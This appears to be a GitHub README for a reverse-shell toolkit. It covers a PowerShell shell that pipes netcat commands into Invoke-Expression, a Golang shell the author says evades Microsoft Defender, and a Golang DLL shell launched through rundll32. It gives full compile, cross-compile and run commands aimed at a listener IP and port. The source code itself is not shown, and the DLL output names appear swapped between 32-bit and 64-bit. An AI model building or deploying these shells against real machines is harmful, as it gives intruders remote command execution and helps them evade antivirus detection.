 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1 -ip 127.0.0.1 -port 3333 </code>


# Golang

Golang reverse shell. Does runtime OS detection and selects propert shell for Windows, Mac, and Linux. Is not detected currently by Microsoft Defender.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:

<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>



# Golang DLL

Golang DLL reverse shell designed to be run with rundll32.exe. This currently has the IP and port hardcoded. Modify the IP and port in the source code.
To Compile:

Linux:
You will need to install the following packages on Ubuntu

<code>sudo apt install golang gcc build-essential gcc-mingw-w64-x86-64 gcc-mingw-w64-i68</code>


Cross compile on Linux for Windows:


32 bit DLL

<code>env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell64.dll revshell_dll.go</code>


64 bit DLL


<code>env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell32.dll revshell_dll.go</code>

To run, provide the IP address and port as command line arguments:

<code>rundll32.exe C:\revshell32.dll,Entry</code>
